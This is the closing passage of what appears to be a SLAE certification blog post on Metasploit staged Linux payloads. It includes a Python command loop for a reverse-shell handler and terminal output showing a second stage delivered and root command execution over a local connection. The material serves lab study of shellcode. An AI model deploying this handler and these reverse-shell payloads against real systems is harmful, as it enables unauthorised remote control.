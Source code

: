 ```python
while True:
    cmd = input("# ")
    conn.send(cmd.encode() + b"\n")

    if cmd == "exit":
        conn.close()
        sock.close()
        break

    rep = conn.recv(1024);
    print(rep.decode(), end="")
```

And I've used the linux/x86/shell/reverse_tcp binary from the first analysis.
Here is an example with the shell_find_tag payload :

In the first terminal prompt 
```plaintext
root@kali:~# ./staged-handler.py tag
[x] Started reverse handler on 127.0.0.1:1337
[x] Connection established from 127.0.0.1
[x] Sending second stage (69 bytes) to 127.0.0.1
[x] Sending tag 'SLAE'
# id
uid=0(root) gid=0(root) groups=0(root)
```

And in the second, (we can note an error on the payload size because it contains null bytes)
```plaintext
root@kali:~# ./staged-reverse-tcp 
Payload Length:  22
```

And... This is the end, thank you if you have read so far :)

***This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
Student ID: PA-14186***

